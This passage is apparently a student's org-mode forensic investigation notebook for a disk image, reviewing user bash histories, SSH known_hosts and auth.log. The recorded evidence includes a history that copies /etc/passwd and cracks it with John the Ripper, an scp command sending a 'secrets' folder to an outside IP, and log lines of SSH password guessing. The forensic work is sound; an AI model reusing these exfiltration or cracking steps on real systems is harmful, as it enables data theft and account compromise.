      www-data                                   **Never logged in**
      backup                                     **Never logged in**
      operator                                   **Never logged in**
      list                                       **Never logged in**
      irc                                        **Never logged in**
      gnats                                      **Never logged in**
      john                                       **Never logged in**
      identd                                     **Never logged in**
      sshd                                       **Never logged in**
      fred             pts/0    10.10.10.107     Mon Sep 10 04:01:29 -0700 2007
      mike             pts/0    10.10.10.107     Mon Sep 10 04:08:23 -0700 2007
      jane             pts/1    10.10.10.107     Mon Sep 10 04:17:31 -0700 2007
      bill                                       **Never logged in**
      guest                                      **Never logged in**
      jake             pts/1    yoyodyne         Mon Sep 10 04:23:15 -0700 2007
    #+END_SRC

*** Hosts

    Look at hosts file.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cat /images/sda1/etc/hosts
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    127.0.0.1	yoyodyne	localhost

    # The following lines are desirable for IPv6 capable hosts
    # (added automatically by netbase upgrade)

    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ff02::3 ip6-allhosts
    #+END_SRC

*** Freds account

    Look at the users home dirs.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/home/fred -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/fred
    /images/sda1/home/fred/.bashrc
    /images/sda1/home/fred/.bash_profile
    /images/sda1/home/fred/.alias
    /images/sda1/home/fred/.cshrc
    /images/sda1/home/fred/memo.txt
    /images/sda1/home/fred/.bash_history
    #+END_SRC

    Look at the memo

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/fred/memo.txt
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text

    #+END_SRC

    Look at fred's bash history

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/fred/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    ls -alh /
    whoami
    cd /secrets/
    less /etc/group
    ls
    vi memo.txt
    ls
    #+END_SRC

*** Mikes account

    Look at the users home dirs.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/home/mike -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/mike
    /images/sda1/home/mike/.bashrc
    /images/sda1/home/mike/.bash_profile
    /images/sda1/home/mike/.alias
    /images/sda1/home/mike/.cshrc
    /images/sda1/home/mike/.bash_history
    #+END_SRC


    Look at fred's bash history

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/mike/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    ls
    mkdir test
    rmdir test
    mkdir /etc/foo
    sudo mkdir /etc/foo
    su -
    ls /
    cd /secrets
    cd /secrets
    cd /secrets
    cd /var/../secrets/
    cat /etc/passwd
    cp /etc/passwd calendar.txt
    wget http://www.openwall.com/john/f/john-1.7.2.tar.bz2
    curl
    lynx
    lynx http://www.openwall.com/john/f/john-1.7.2.tar.bz2
    ls
    reset
    less .bash_history
    cat .bash_history
    lynx http://www.openwall.com/john/f/john-1.7.2.tar.bz2
    ls
    tar -xvzf john-1.7.2.tar.bz2
    tar -xvjf john-1.7.2.tar.bz2
    which bzip2
    rm john-1.7.2.tar.bz2
    lynx http://www.openwall.com/john/f/john-1.7.2.tar.gz
    ls
    tar -xvzf john-1.7.2.tar.gz
    cd john-1.7.2
    ls
    less README
    less doc/INSTALL
    cd src/
    ls
    make
    make | less
    make linux-x86-mmx
    ls
    cd ..
    ls
    cd ..
    cp john-1.7.2/run/john .
    ls
    less john-1.7.2/doc/INSTALL
    ./john --test
    mv john john-1.7.2/run/
    mv calendar.txt john-1.7.2/run/
    cd john-1.7.2/run/
    ls
    ./john --test
    ./john calendar.txt
    su -
    whoami
    #+END_SRC


    Look for calendar.txt

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo find /images/sda1/home/ -type f -name calendar.txt
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text

    #+END_SRC

*** Janes account

    Look more into Janes account.

    Look at files found in Janes home dir.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo find /images/sda1/home/jane -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/jane
    /images/sda1/home/jane/.bashrc
    /images/sda1/home/jane/.bash_profile
    /images/sda1/home/jane/.alias
    /images/sda1/home/jane/.cshrc
    /images/sda1/home/jane/.bash_history
    #+END_SRC

    Janes bash history.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/jane/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    cd /secrets
    ls
    less numbers/83.csv
    less numbers/82.csv
    cd /secrets/
    ls
    cd other/
    ls
    cat secret3.data >> newsecret.data
    ls -alh
    cat secret3.data >> newsecret.data
    cat secret2.data >> newsecret.data
    ls
    cat newsecret.data
    qls
    reset
    ls
    logout
    #+END_SRC

*** Jakes account

    This account seems to have been compomised.

    Look at the Jakes home dir.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/home/jake -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/jake
    /images/sda1/home/jake/.bashrc
    /images/sda1/home/jake/.bash_profile
    /images/sda1/home/jake/.alias
    /images/sda1/home/jake/.cshrc
    /images/sda1/home/jake/.ssh
    /images/sda1/home/jake/.ssh/known_hosts
    /images/sda1/home/jake/.elinks
    /images/sda1/home/jake/.elinks/numbers
    /images/sda1/home/jake/.elinks/other
    /images/sda1/home/jake/.bash_history
    #+END_SRC

    Look at jake's bash history

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/jake/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    cp -r /secrets .
    ls
    scp -r secrets d000d@207.92.30.41   :~/
    ls
    mv secrets .elinks
    ls
    ls -alh
    #+END_SRC

    Look at SSH known_hosts

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/home/jake/.ssh/known_hosts
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    tastytronic.net,64.81.40.132 ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEA4yJ4d2f42iIwGP8LrIAxP1sfPUZCWJATVPAOhLtT7BBvseJg55PGGXRenlvjLgRWFlfT4pCyyX5GN5wHV9aLr5Qh7iFOtz9ZHaDvdkq8dD0ZxdVxfX1lH3eTECuWwwaQtcV0zLQZ5dShPIuJxM0MgaYub/wRrPPc186vmf1B9cE=
    #+END_SRC

    (tastytronic.net seems to be a company/blog space for authors to this assignment.)


    look into jakes .elinks

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo ls -lRa /images/sda1/home/jake/.elinks
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/home/jake/.elinks:
    total 16
    drwxr-x--- 4 1006 1006 4096 2007-09-10 04:23 .
    drwxr-xr-x 4 1006 1006 4096 2007-09-10 04:26 ..
    drwxr-x--- 2 1006 1006 4096 2007-09-10 04:23 numbers
    drwxr-x--- 2 1006 1006 4096 2007-09-10 04:23 other

    /images/sda1/home/jake/.elinks/numbers:
    total 552
    drwxr-x--- 2 1006 1006 4096 2007-09-10 04:23 .
    drwxr-x--- 4 1006 1006 4096 2007-09-10 04:23 ..
    -rw-r----- 1 1006 1006 6212 2007-09-10 04:23 100.csv
    -rw-r----- 1 1006 1006  721 2007-09-10 04:23 10.csv
    -rw-r----- 1 1006 1006  782 2007-09-10 04:23 11.csv
    -rw-r----- 1 1006 1006  843 2007-09-10 04:23 12.csv
    -rw-r----- 1 1006 1006  904 2007-09-10 04:23 13.csv
    -rw-r----- 1 1006 1006  965 2007-09-10 04:23 14.csv
    -rw-r----- 1 1006 1006 1026 2007-09-10 04:23 15.csv
    -rw-r----- 1 1006 1006 1087 2007-09-10 04:23 16.csv
    -rw-r----- 1 1006 1006 1148 2007-09-10 04:23 17.csv
    -rw-r----- 1 1006 1006 1209 2007-09-10 04:23 18.csv
    -rw-r----- 1 1006 1006 1270 2007-09-10 04:23 19.csv
    -rw-r----- 1 1006 1006  171 2007-09-10 04:23 1.csv
    -rw-r----- 1 1006 1006 1331 2007-09-10 04:23 20.csv
    -rw-r----- 1 1006 1006 1392 2007-09-10 04:23 21.csv
    -rw-r----- 1 1006 1006 1453 2007-09-10 04:23 22.csv
    -rw-r----- 1 1006 1006 1514 2007-09-10 04:23 23.csv
    -rw-r----- 1 1006 1006 1575 2007-09-10 04:23 24.csv
    -rw-r----- 1 1006 1006 1636 2007-09-10 04:23 25.csv
    -rw-r----- 1 1006 1006 1697 2007-09-10 04:23 26.csv
    -rw-r----- 1 1006 1006 1758 2007-09-10 04:23 27.csv
    -rw-r----- 1 1006 1006 1819 2007-09-10 04:23 28.csv
    -rw-r----- 1 1006 1006 1880 2007-09-10 04:23 29.csv
    -rw-r----- 1 1006 1006  232 2007-09-10 04:23 2.csv
    -rw-r----- 1 1006 1006 1941 2007-09-10 04:23 30.csv
    -rw-r----- 1 1006 1006 2002 2007-09-10 04:23 31.csv
    -rw-r----- 1 1006 1006 2063 2007-09-10 04:23 32.csv
    -rw-r----- 1 1006 1006 2124 2007-09-10 04:23 33.csv
    -rw-r----- 1 1006 1006 2185 2007-09-10 04:23 34.csv
    -rw-r----- 1 1006 1006 2246 2007-09-10 04:23 35.csv
    -rw-r----- 1 1006 1006 2307 2007-09-10 04:23 36.csv
    -rw-r----- 1 1006 1006 2368 2007-09-10 04:23 37.csv
    -rw-r----- 1 1006 1006 2429 2007-09-10 04:23 38.csv
    -rw-r----- 1 1006 1006 2490 2007-09-10 04:23 39.csv
    -rw-r----- 1 1006 1006  293 2007-09-10 04:23 3.csv
    -rw-r----- 1 1006 1006 2551 2007-09-10 04:23 40.csv
    -rw-r----- 1 1006 1006 2612 2007-09-10 04:23 41.csv
    -rw-r----- 1 1006 1006 2673 2007-09-10 04:23 42.csv
    -rw-r----- 1 1006 1006 2734 2007-09-10 04:23 43.csv
    -rw-r----- 1 1006 1006 2795 2007-09-10 04:23 44.csv
    -rw-r----- 1 1006 1006 2856 2007-09-10 04:23 45.csv
    -rw-r----- 1 1006 1006 2917 2007-09-10 04:23 46.csv
    -rw-r----- 1 1006 1006 2978 2007-09-10 04:23 47.csv
    -rw-r----- 1 1006 1006 3039 2007-09-10 04:23 48.csv
    -rw-r----- 1 1006 1006 3100 2007-09-10 04:23 49.csv
    -rw-r----- 1 1006 1006  354 2007-09-10 04:23 4.csv
    -rw-r----- 1 1006 1006 3161 2007-09-10 04:23 50.csv
    -rw-r----- 1 1006 1006 3222 2007-09-10 04:23 51.csv
    -rw-r----- 1 1006 1006 3283 2007-09-10 04:23 52.csv
    -rw-r----- 1 1006 1006 3344 2007-09-10 04:23 53.csv
    -rw-r----- 1 1006 1006 3405 2007-09-10 04:23 54.csv
    -rw-r----- 1 1006 1006 3466 2007-09-10 04:23 55.csv
    -rw-r----- 1 1006 1006 3527 2007-09-10 04:23 56.csv
    -rw-r----- 1 1006 1006 3588 2007-09-10 04:23 57.csv
    -rw-r----- 1 1006 1006 3649 2007-09-10 04:23 58.csv
    -rw-r----- 1 1006 1006 3710 2007-09-10 04:23 59.csv
    -rw-r----- 1 1006 1006  415 2007-09-10 04:23 5.csv
    -rw-r----- 1 1006 1006 3771 2007-09-10 04:23 60.csv
    -rw-r----- 1 1006 1006 3832 2007-09-10 04:23 61.csv
    -rw-r----- 1 1006 1006 3893 2007-09-10 04:23 62.csv
    -rw-r----- 1 1006 1006 3954 2007-09-10 04:23 63.csv
    -rw-r----- 1 1006 1006 4015 2007-09-10 04:23 64.csv
    -rw-r----- 1 1006 1006 4076 2007-09-10 04:23 65.csv
    -rw-r----- 1 1006 1006 4137 2007-09-10 04:23 66.csv
    -rw-r----- 1 1006 1006 4198 2007-09-10 04:23 67.csv
    -rw-r----- 1 1006 1006 4259 2007-09-10 04:23 68.csv
    -rw-r----- 1 1006 1006 4320 2007-09-10 04:23 69.csv
    -rw-r----- 1 1006 1006  476 2007-09-10 04:23 6.csv
    -rw-r----- 1 1006 1006 4381 2007-09-10 04:23 70.csv
    -rw-r----- 1 1006 1006 4442 2007-09-10 04:23 71.csv
    -rw-r----- 1 1006 1006 4503 2007-09-10 04:23 72.csv
    -rw-r----- 1 1006 1006 4564 2007-09-10 04:23 73.csv
    -rw-r----- 1 1006 1006 4625 2007-09-10 04:23 74.csv
    -rw-r----- 1 1006 1006 4686 2007-09-10 04:23 75.csv
    -rw-r----- 1 1006 1006 4747 2007-09-10 04:23 76.csv
    -rw-r----- 1 1006 1006 4808 2007-09-10 04:23 77.csv
    -rw-r----- 1 1006 1006 4869 2007-09-10 04:23 78.csv
    -rw-r----- 1 1006 1006 4930 2007-09-10 04:23 79.csv
    -rw-r----- 1 1006 1006  537 2007-09-10 04:23 7.csv
    -rw-r----- 1 1006 1006 4991 2007-09-10 04:23 80.csv
    -rw-r----- 1 1006 1006 5052 2007-09-10 04:23 81.csv
    -rw-r----- 1 1006 1006 5113 2007-09-10 04:23 82.csv
    -rw-r----- 1 1006 1006 5174 2007-09-10 04:23 83.csv
    -rw-r----- 1 1006 1006 5235 2007-09-10 04:23 84.csv
    -rw-r----- 1 1006 1006 5296 2007-09-10 04:23 85.csv
    -rw-r----- 1 1006 1006 5357 2007-09-10 04:23 86.csv
    -rw-r----- 1 1006 1006 5418 2007-09-10 04:23 87.csv
    -rw-r----- 1 1006 1006 5479 2007-09-10 04:23 88.csv
    -rw-r----- 1 1006 1006 5540 2007-09-10 04:23 89.csv
    -rw-r----- 1 1006 1006  598 2007-09-10 04:23 8.csv
    -rw-r----- 1 1006 1006 5601 2007-09-10 04:23 90.csv
    -rw-r----- 1 1006 1006 5662 2007-09-10 04:23 91.csv
    -rw-r----- 1 1006 1006 5723 2007-09-10 04:23 92.csv
    -rw-r----- 1 1006 1006 5784 2007-09-10 04:23 93.csv
    -rw-r----- 1 1006 1006 5845 2007-09-10 04:23 94.csv
    -rw-r----- 1 1006 1006 5906 2007-09-10 04:23 95.csv
    -rw-r----- 1 1006 1006 5967 2007-09-10 04:23 96.csv
    -rw-r----- 1 1006 1006 6028 2007-09-10 04:23 97.csv
    -rw-r----- 1 1006 1006 6089 2007-09-10 04:23 98.csv
    -rw-r----- 1 1006 1006 6150 2007-09-10 04:23 99.csv
    -rw-r----- 1 1006 1006  659 2007-09-10 04:23 9.csv
    -rw-r----- 1 1006 1006   45 2007-09-10 04:23 NOTICE

    /images/sda1/home/jake/.elinks/other:
    total 52
    drwxr-x--- 2 1006 1006  4096 2007-09-10 04:23 .
    drwxr-x--- 4 1006 1006  4096 2007-09-10 04:23 ..
    -rw-r--r-- 1 1006 1006 20480 2007-09-10 04:23 newsecret.data
    -rw-r----- 1 1006 1006  4096 2007-09-10 04:23 secret2.data
    -rw-r----- 1 1006 1006 16384 2007-09-10 04:23 secret3.data
    -rw-r----- 1 1006 1006  2048 2007-09-10 04:23 secret.data
    #+END_SRC

    Diff jakes .elinks with the secret folder.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo diff -rq /images/sda1/secrets /images/sda1/home/jake/.elinks
    #+END_SRC

    As we get no output the direcotries are the same.

*** Root account

    Look at the root home dirs.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo find /images/sda1/root/ -maxdepth 2 -name "*"
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/root/
    /images/sda1/root/.bash_history
    /images/sda1/root/.profile
    /images/sda1/root/.bashrc
    /images/sda1/root/.ssh
    /images/sda1/root/.ssh/known_hosts
    #+END_SRC

    Look at root's bash history

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/root/.bash_history
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    ls
    cd secret/
    ls
    which shred
    mv secrets /secrets
    vi motd
    vi /etc/motd
    ls
    vi motd
    date
    cat motd  >> /etc/motd
    cat /etc/motd
    ls
    shred -u -z *
    ls
    cd ..
    rmdir secret/
    ls
    cd /secrets/
    ls
    cd ..
    ls -alh
    addgroup secretive
    sudo adduser fred
    adduser fred
    adduser mike
    adduser jane
    chfn jane
    adduser bill
    sudo vi /etc/group
    vi /etc/group
    adduser guest
    adduser guest
    cd /
    ls
    chown root:secretive -R secrets/
    ls -alh
    chmod g+rwx secrets
    ls -alh
    sudo chmod g+s secrets
    chmod g+s secrets
    ls -alh
    ls -alh secrets/
    ls -alh secrets/numbers/
    ls
    swapon -s
    swapoff /dev/hda2
    hexedit
    apt-get install hexedit
    cat /dev/zero > /dev/hda2
    mkswap /dev/hda2
    swapon -a
    ls /home/
    tail -f /var/log/auth.log
    vi /etc/group
    chmod o-rwx -R /secrets
    cat /dev/zero > file
    rm file
    cd /secrets/
    ls
    ls -alh
    chmod g+w numbers/
    chmod g+w other
    ls
    adduser jake
    cat /etc/group
    vi /etc/group
    ssh jake@localhost
    whoami
    rm -rf ~mike/john-1.7.2*
    #+END_SRC

*** Look for the IP provided.

     Look in users home.

     #+CAPTION: Commands
     #+BEGIN_SRC sh
       sudo grep -rnw /images/sda1/home/ -e "207.92.30.41" 2> /dev/null
     #+END_SRC

     #+CAPTION: Results
     #+BEGIN_SRC text
     /images/sda1/home/jake/.bash_history:3:scp -r secrets d000d@207.92.30.41   :~/
     #+END_SRC

     Look in the /var.

     #+CAPTION: Commands
     #+BEGIN_SRC sh
       sudo grep -rnw /images/sda1/var/ -e "207.92.30.41" 2> /dev/null
     #+END_SRC

     #+CAPTION: Results
     #+BEGIN_SRC text

     #+END_SRC

     Look in /etc

     #+CAPTION: Commands
     #+BEGIN_SRC sh
       sudo grep -rnw /images/sda1/etc/ -e "207.92.30.41" 2> /dev/null
     #+END_SRC

     #+CAPTION: Results
     #+BEGIN_SRC text

     #+END_SRC

*** Look for log files

    List log files

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     ls -R /images/sda1/var/log | \
     awk '/:$/&&f{s=$0;f=0} /:$/&&!f{sub(/:$/,"");s=$0;f=1;next} NF&&f{ print s"/"$0 }' | \
     sort
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/var/log/auth.log
    /images/sda1/var/log/daemon.log
    /images/sda1/var/log/debug
    /images/sda1/var/log/dmesg
    /images/sda1/var/log/exim
    /images/sda1/var/log/faillog
    /images/sda1/var/log/installer.log
    /images/sda1/var/log/installer.timings
    /images/sda1/var/log/kern.log
    /images/sda1/var/log/ksymoops
    /images/sda1/var/log/ksymoops/20070909.log
    /images/sda1/var/log/ksymoops/20070910025202.ksyms
    /images/sda1/var/log/ksymoops/20070910025202.modules
    /images/sda1/var/log/ksymoops/20070910025214.ksyms
    /images/sda1/var/log/ksymoops/20070910025214.modules
    /images/sda1/var/log/ksymoops/20070910025617.ksyms
    /images/sda1/var/log/ksymoops/20070910025617.modules
    /images/sda1/var/log/ksymoops/20070910043141.ksyms
    /images/sda1/var/log/ksymoops/20070910043141.modules
    /images/sda1/var/log/ksymoops/20070910.log
    /images/sda1/var/log/lastlog
    /images/sda1/var/log/lp-acct
    /images/sda1/var/log/lp-errs
    /images/sda1/var/log/lpr.log
    /images/sda1/var/log/mail.err
    /images/sda1/var/log/mail.info
    /images/sda1/var/log/mail.log
    /images/sda1/var/log/mail.warn
    /images/sda1/var/log/messages
    /images/sda1/var/log/news
    /images/sda1/var/log/news/news.crit
    /images/sda1/var/log/news/news.err
    /images/sda1/var/log/news/news.notice
    /images/sda1/var/log/syslog
    /images/sda1/var/log/user.log
    /images/sda1/var/log/uucp.log
    /images/sda1/var/log/wtmp
    #+END_SRC

    auth.log

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo cat /images/sda1/var/log/auth.log
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    Feb 8 02:53:01 yoyodyne PAM_unix[244]: (cron) session opened for user mail by (uid=0)
    Feb 8 02:53:02 yoyodyne PAM_unix[244]: (cron) session closed for user mail
    Sep 10 10:38:01 yoyodyne PAM_unix[2207]: (cron) session closed for user mail
    Sep 10 10:53:01 yoyodyne PAM_unix[2211]: (cron) session opened for user mail by (uid=0)
    Sep 10 10:53:01 yoyodyne PAM_unix[2211]: (cron) session closed for user mail
    Sep 10 03:56:38 yoyodyne sshd[2214]: Could not reverse map address 193.252.122.103.
    Sep 10 03:56:41 yoyodyne PAM_unix[2214]: authentication failure; (uid=0) -> john for ssh service
    Sep 10 03:56:43 yoyodyne sshd[2214]: Failed password for john from 193.252.122.103 port 33018 ssh2
    Sep 10 03:56:50 yoyodyne last message repeated 2 times
    Sep 10 03:56:50 yoyodyne PAM_unix[2214]: 2 more authentication failures; (uid=0) -> john for ssh service
    Sep 10 03:57:24 yoyodyne sshd[2216]: Could not reverse map address 193.252.122.103.
    Sep 10 03:57:36 yoyodyne PAM_unix[2216]: authentication failure; (uid=0) -> fred for ssh service
    Sep 10 03:57:38 yoyodyne sshd[2216]: Failed password for fred from 193.252.122.103 port 33019 ssh2
    Sep 10 03:57:58 yoyodyne last message repeated 2 times
    Sep 10 03:57:58 yoyodyne PAM_unix[2216]: 2 more authentication failures; (uid=0) -> fred for ssh service
    Sep 10 03:58:18 yoyodyne sshd[2219]: Could not reverse map address 193.252.122.103.
    Sep 10 03:58:41 yoyodyne sshd[2221]: Could not reverse map address 193.252.122.103.
    Sep 10 03:59:01 yoyodyne sshd[2223]: Could not reverse map address 193.252.122.103.
    Sep 10 03:59:26 yoyodyne sshd[2225]: Could not reverse map address 193.252.122.103.
    Sep 10 03:59:42 yoyodyne sshd[2227]: Could not reverse map address 193.252.122.103.
    Sep 10 03:59:45 yoyodyne PAM_unix[2227]: authentication failure; (uid=0) -> mike for ssh service
    Sep 10 03:59:47 yoyodyne sshd[2227]: Failed password for mike from 193.252.122.103 port 57719 ssh2
    Sep 10 03:59:55 yoyodyne last message repeated 2 times
    Sep 10 03:59:55 yoyodyne PAM_unix[2227]: 2 more authentication failures; (uid=0) -> mike for ssh service
    Sep 10 04:00:14 yoyodyne sshd[2229]: Could not reverse map address 193.252.122.103.
    Sep 10 04:00:15 yoyodyne sshd[2229]: Accepted password for mike from 193.252.122.103 port 57720 ssh2
    Sep 10 04:00:15 yoyodyne PAM_unix[2231]: (ssh) session opened for user mike by (uid=1002)
    Sep 10 04:00:57 yoyodyne PAM_unix[2110]: (ssh) session closed for user root
    Sep 10 04:00:57 yoyodyne sshd[2110]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:01:02 yoyodyne PAM_unix[2231]: (ssh) session closed for user mike
    Sep 10 04:01:02 yoyodyne sshd[2231]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:01:09 yoyodyne sshd[2235]: Could not reverse map address 193.252.122.103.
    Sep 10 04:01:20 yoyodyne sshd[2237]: Could not reverse map address 193.252.122.103.
    Sep 10 04:01:29 yoyodyne sshd[2237]: Accepted password for fred from 193.252.122.103 port 57722 ssh2
    Sep 10 04:01:29 yoyodyne PAM_unix[2239]: (ssh) session opened for user fred by (uid=1001)
    Sep 10 04:01:48 yoyodyne sshd[2235]: Accepted password for root from 193.252.122.103 port 57721 ssh2
    Sep 10 04:01:48 yoyodyne PAM_unix[2235]: (ssh) session opened for user root by (uid=0)
    Sep 10 04:03:02 yoyodyne PAM_unix[2239]: (ssh) session closed for user fred
    Sep 10 04:03:02 yoyodyne sshd[2239]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:03:21 yoyodyne sshd[2251]: Could not reverse map address 193.252.122.103.
    Sep 10 04:03:26 yoyodyne sshd[2251]: Accepted password for jane from 193.252.122.103 port 57726 ssh2
    Sep 10 04:03:26 yoyodyne PAM_unix[2253]: (ssh) session opened for user jane by (uid=1003)
    Sep 10 04:03:54 yoyodyne PAM_unix[2253]: (ssh) session closed for user jane
    Sep 10 04:03:54 yoyodyne sshd[2253]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:04:08 yoyodyne sshd[2258]: Could not reverse map address 193.252.122.103.
    Sep 10 04:04:11 yoyodyne sshd[2258]: Accepted password for mike from 193.252.122.103 port 34667 ssh2
    Sep 10 04:04:12 yoyodyne PAM_unix[2260]: (ssh) session opened for user mike by (uid=1002)
    Sep 10 04:04:59 yoyodyne PAM_unix[2266]: authentication failure; mike(uid=1002) -> root for su service
    Sep 10 04:05:02 yoyodyne su[2266]: pam_authenticate: Authentication failure
    Sep 10 04:05:02 yoyodyne su[2266]: - pts/0 mike-root
    Sep 10 11:08:01 yoyodyne PAM_unix[2277]: (cron) session opened for user mail by (uid=0)
    Sep 10 11:08:01 yoyodyne PAM_unix[2277]: (cron) session closed for user mail
    Sep 10 04:08:10 yoyodyne PAM_unix[2260]: (ssh) session closed for user mike
    Sep 10 04:08:10 yoyodyne sshd[2260]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:08:21 yoyodyne sshd[2280]: Could not reverse map address 193.252.122.103.
    Sep 10 04:08:23 yoyodyne sshd[2280]: Accepted password for mike from 193.252.122.103 port 34672 ssh2
    Sep 10 04:08:23 yoyodyne PAM_unix[2282]: (ssh) session opened for user mike by (uid=1002)
    Sep 10 04:17:10 yoyodyne PAM_unix[2235]: (ssh) session closed for user root
    Sep 10 04:17:10 yoyodyne sshd[2235]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:17:24 yoyodyne sshd[2626]: Could not reverse map address 193.252.122.103.
    Sep 10 04:17:31 yoyodyne sshd[2626]: Accepted password for jane from 193.252.122.103 port 55072 ssh2
    Sep 10 04:17:31 yoyodyne PAM_unix[2628]: (ssh) session opened for user jane by (uid=1003)
    Sep 10 04:18:36 yoyodyne sshd[2635]: Could not reverse map address 193.252.122.103.
    Sep 10 04:18:40 yoyodyne sshd[2635]: Accepted password for root from 193.252.122.103 port 55075 ssh2
    Sep 10 04:18:40 yoyodyne PAM_unix[2635]: (ssh) session opened for user root by (uid=0)
    Sep 10 04:19:19 yoyodyne PAM_unix[2628]: (ssh) session closed for user jane
    Sep 10 04:19:19 yoyodyne sshd[2628]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:20:26 yoyodyne PAM_unix[2635]: (ssh) session closed for user root
    Sep 10 04:20:26 yoyodyne sshd[2635]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:20:33 yoyodyne su[2650]: + pts/0 mike-root
    Sep 10 04:20:33 yoyodyne PAM_unix[2650]: (su) session opened for user root by mike(uid=1002)
    Sep 10 04:21:05 yoyodyne groupadd[2654]: new group: name=jake, gid=1006
    Sep 10 04:21:05 yoyodyne useradd[2655]: new user: name=jake, uid=1006, gid=1006, home=/home/jake, shell=/bin/bash
    Sep 10 04:21:21 yoyodyne PAM_unix[2658]: Password for jake was changed
    Sep 10 04:21:51 yoyodyne chfn[2659]: changed user `jake' information.
    Sep 10 04:22:17 yoyodyne chfn[2660]: changed user `jake' information.
    Sep 10 11:23:01 yoyodyne PAM_unix[2663]: (cron) session opened for user mail by (uid=0)
    Sep 10 11:23:01 yoyodyne PAM_unix[2663]: (cron) session closed for user mail
    Sep 10 04:23:15 yoyodyne sshd[2666]: Accepted password for jake from 127.0.0.1 port 1028 ssh2
    Sep 10 04:23:15 yoyodyne PAM_unix[2668]: (ssh) session opened for user jake by (uid=1006)
    Sep 10 04:26:24 yoyodyne PAM_unix[2668]: (ssh) session closed for user jake
    Sep 10 04:26:24 yoyodyne sshd[2668]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:28:11 yoyodyne PAM_unix[2282]: (ssh) session closed for user mike
    Sep 10 04:28:11 yoyodyne sshd[2282]: PAM pam_putenv: delete non-existent entry; MAIL
    Sep 10 04:28:51 yoyodyne sshd[1963]: Received signal 15; terminating.
    Sep 10 04:31:53 yoyodyne sshd[197]: Server listening on 0.0.0.0 port 22.
    Sep 10 04:32:26 yoyodyne PAM_unix[206]: (login) session opened for user root by LOGIN(uid=0)
    Sep 10 04:32:27 yoyodyne login[206]: ROOT LOGIN on `tty1'
    Sep 10 04:32:40 yoyodyne sshd[197]: Received signal 15; terminating.
    #+END_SRC


    Look for entris from the IP address 193.252.122.103

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo grep -rnw /images/sda1/var/log/ -e "193.252.122.103" 2> /dev/null
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/var/log/auth.log:6:Sep 10 03:56:38 yoyodyne sshd[2214]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:8:Sep 10 03:56:43 yoyodyne sshd[2214]: Failed password for john from 193.252.122.103 port 33018 ssh2
    /images/sda1/var/log/auth.log:11:Sep 10 03:57:24 yoyodyne sshd[2216]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:13:Sep 10 03:57:38 yoyodyne sshd[2216]: Failed password for fred from 193.252.122.103 port 33019 ssh2
    /images/sda1/var/log/auth.log:16:Sep 10 03:58:18 yoyodyne sshd[2219]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:17:Sep 10 03:58:41 yoyodyne sshd[2221]: Could not reverse map address 193.252.122.103.
    /images/sda1/var/log/auth.log:18:Sep 10 03:59:01 yoyodyne sshd[2223]: Could not reverse map address 193.252.122.103.
